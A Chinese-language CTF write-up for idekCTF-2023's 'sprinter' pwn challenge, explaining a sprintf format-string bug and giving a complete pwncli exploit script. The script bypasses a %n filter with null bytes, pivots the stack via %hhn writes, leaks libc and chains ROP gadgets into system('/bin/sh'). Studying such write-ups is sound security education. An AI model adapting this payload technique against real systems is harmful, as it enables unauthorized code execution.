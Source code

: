 ```yaml
---
name: idekCTF-2023
link: https://ctf.idek.team/
challenges:
- name: sprinter
  tag: fmt-string | sprintf
  solved: true
- name: coroutine
  tag: 
  solved: true
---
```


>   春节前后都比较忙，可恶
>
>   回头看了 pwn 题，都挺有意思的，可惜了

## sprinter

>   之前其它国内比赛做多了，很多 pwn 题都是逆向上恶心得不行漏洞点又没什么创新，idek 中倒是没有这种情况
>
>   神中神🥰

#### Analysis

比较麻烦的是 vuln 函数中有 `sprintf(s, s)` 的操作，会导致一些奇怪的行为：

```c
void __fastcall vuln()
{
  char s[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v1; // [rsp+108h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  printf("Enter your string into my buffer, located at %p: ", s);
  fgets(s, 256, stdin);
  if ( !strchr(s, 'n') && strlen(s) <= 38 )
    sprintf(s, s);
}
```

同时通过 strchr 禁用了 `%n` 的操作，也就是没法直接写入，这里思路还是有一点绕的，可以想到如下两种打法：

-   用 `\x00` 截断 `strchr` 和 `strlen` 的检查，再通过 `%c` 之类的操作覆盖掉原来的 `\x00`，通过 `%n` 定向写入完成利用
-   用 `%.7s` 去覆盖 `canary` 进而实现栈溢出 + ROP

#### Exploitation

先来看第一种打法，难点有两处：

-   计算 %(x)c 的 padding 时，其实是在计算 `x*2 - 4 == padding_length`
-   这里固定 `leak_addr&0xff==0x90`，实际上是为了两次栈迁移时都能使目标地址和原先的 rbp 仅有最低位不同
    -   实际上这里需要 `1/16` 的爆破，不过最近在尝试 pwncli，写循环爆破时总是出现奇奇怪怪的问题，故采用如下脚本运行:
```sh
while $1:                                                                                                                                             ─╯
do
./exp.py de ./pwn
done
```

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

ru(b"Enter your string into my buffer, located at 0x")
leak_addr = int(ru(b": ", drop=True), 16)
lg("leak_addr")
assert leak_addr&0xff == 0x90           #   for the convience of calculation of the fake rbp
last_rip_addr = leak_addr + 0x118
last_rbp_addr = leak_addr + 0x110
lg("last_rbp_addr")
lg("last_rip_addr")

pop_rdi_ret = 0x0000000000401373
ret_addr    = pop_rdi_ret + 1

debugB()

payload = b"%46c"
#  actually, the padding length should be 46*2-4, and the len(previous_payload)==4, so here we directly use 46*2==0x58
payload = payload.ljust(0x58, b"\x00")  #   hijack rbp to controllable address
payload += b"%29$hhn"
payload = payload.ljust(0xad, b"a")     #   set rip to gadget "leave; ret;"
payload += b"%30$hhn"
payload = payload.ljust(0xc0, b"a")
payload += p64(last_rbp_addr)
payload += p64(last_rip_addr)
payload += p64(pop_rdi_ret)
payload += p64(elf.got['printf'])
payload += p64(elf.plt['printf'])
payload += p64(ret_addr)
payload += p64(elf.sym['main'])
sl(payload)

libc_base = u64_ex(rn(6)) - libc.sym.printf
lg("libc_base")

ru(b"Enter your string into my buffer, located at 0x")
leak_addr = int(ru(b": ", drop=True), 16)
lg("leak_addr")
last_rip_addr = leak_addr + 0x118
last_rbp_addr = leak_addr + 0x110
lg("last_rbp_addr")
lg("last_rip_addr")

#  now that we've got libc base, it's quite easy to repeat the above code
payload = b"%22c"
payload = payload.ljust(0x28, b"\x00")  #   hijack rbp to controllable address
payload += b"%29$hhn"
payload = payload.ljust(0xad, b"a")     #   set rip to gadget "leave; ret;"
payload += b"%30$hhn"
payload = payload.ljust(0xc0, b"a")
payload += p64(last_rbp_addr)
payload += p64(last_rip_addr)
payload += p64(pop_rdi_ret)
payload += p64(libc_base + next(libc.search(b"/bin/sh\x00")))
payload += p64(libc_base + libc.sym.system)
sl(payload)

ia()
```

---

## coroutine



